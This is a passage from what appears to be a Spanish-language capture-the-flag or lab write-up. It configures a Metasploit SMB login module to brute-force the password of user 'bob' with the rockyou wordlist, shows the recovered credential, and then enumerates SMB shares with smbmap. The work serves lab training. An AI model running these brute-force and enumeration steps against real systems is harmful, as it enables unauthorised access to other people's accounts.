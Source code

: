 
Configuramos las opciones. Tenemos que modificar el `RHOST` indicando la IP de la máquina victima,  indicar el usuarios `bob` en `SMBUser`, indicar un diccionario en `PASS_FILE`,  modificar el `STOP_ON_SUCCESS`para que cuando encuentre una contraseña de pare y no siga analizando y el `VERBOSE` para que no me muestre todas las comprobación que esté realizando.
```
set RHOST 172.17.0.2
set SMBUser bob
set PASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set VERBOSE false
```

![](img/Pasted%20image%2020241215191003.png#center)

Iniciamos el módulo
```
run
```

![](img/Pasted%20image%2020241215191428.png#center)

Encontramos la contraseña del usuario `bob`.


| Usuarios | Contraseñas |
| -------- | ----------- |
| james    |             |
| bob      | star        |


---




Teniendo un usuario y contraseña, podemos enumerar los recursos compartidos y ver si el usuario `bob`, en este caso, tiene algún permiso en uno de esos recursos
```
smbmap -u 'bob' -p 'star' -H 172.17.0.2
```
